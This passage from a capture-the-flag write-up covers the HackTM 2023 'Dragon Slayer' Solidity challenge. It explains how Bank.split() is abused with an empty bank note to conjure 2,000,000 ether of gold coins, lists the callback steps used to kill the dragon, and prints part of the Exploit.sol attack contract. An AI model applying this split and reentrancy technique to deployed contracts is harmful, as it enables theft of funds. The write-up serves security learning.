 2. **Exploit the vulnerability:** We then call `split()` with our empty bank note and `amount = [2_000_000 ether, 0]` to gain `2_000_000 ether` worth of gold coins:
```solidity
// Abuse bank.split() to "borrow" 2,000,000 ether
uint[] memory amounts = new uint[](2);
amounts[0] = goldCoinAmount;
bank.split(1, amounts);
```
1. **Fight the dragon:** In the second callback to `onERC721Received()`, we do the following:
   1. Withdraw our `2_000_000 ether` gold coins from the bank note.
   2. Transfer all gold coins to the knight.
   3. Knight buys items `3` and `4` with all the gold coins.
   4. Knight fights the dragon until its health is 0.
   5. Knight sells items `3` and `4` to gain back the `2_000_000 ether` gold coins. 
   6. Knight deposits the gold coins and transfers it to the attacker contract's bank note. 

## Exploit code
[`Exploit.sol`](https://github.com/MiloTruck/smart-contract/blob/main/ctf/hacktm-2023/dragon-slayer/Exploit.sol), which contains the full exploit code, is as shown:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "./dragon_slayer_contracts/Setup.sol";
import "./dragon_slayer_contracts/Knight.sol";
import "./dragon_slayer_contracts/Dragon.sol";
import "./dragon_slayer_contracts/Bank.sol";
import "./dragon_slayer_contracts/GoldCoin.sol";

contract Exploit {
    // Challenge contracts
    Setup public setup;
    Knight public knight;
    Dragon public dragon;
    Bank public bank;
    GoldCoin public goldCoin;

    // Counts the number of times onERC721Received is called
    uint256 hitCount;

    // Amount of gold coins required to solve the challenge
    uint256 constant goldCoinAmount = 2_000_000 ether;

    constructor(Setup _setup) {
        // Initialize challenge contracts
        setup = _setup;
        knight = setup.knight();
        dragon = knight.dragon();
        bank = knight.bank();
        goldCoin = bank.goldCoin();

        // Claim ownership of Knight contract
        setup.claim();
    }

    function exploit() public {
        // Get an empty banknote (id 1)
        uint[] memory bankNoteIDsFrom = new uint[](0);
        bank.merge(bankNoteIDsFrom);

        // Abuse bank.split() to "borrow" 2,000,000 ether
        uint[] memory amounts = new uint[](2);
        amounts[0] = goldCoinAmount;
```